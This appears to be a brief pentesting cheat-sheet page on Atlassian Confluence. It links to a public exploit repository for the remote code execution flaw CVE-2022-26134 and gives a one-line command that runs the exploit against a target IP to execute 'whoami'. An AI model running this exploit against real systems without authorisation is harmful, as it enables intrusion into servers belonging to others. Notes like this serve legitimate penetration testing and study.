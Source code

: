 ```yaml
---
title: Atlassian Confluence Pentesting
desc: 
tags: [Atlassian, Confluence, Web]
alts: []
render_with_liquid: false
---
```


## Remote Code Execution (CVE-2022-26134)

Download the exploit from the [repo](https://github.com/h3v0x/CVE-2022-26134){:target="_blank"}{:rel="noopener"}.

```sh
python3 exploit.py -u http://<target-ip> -c whoami
```

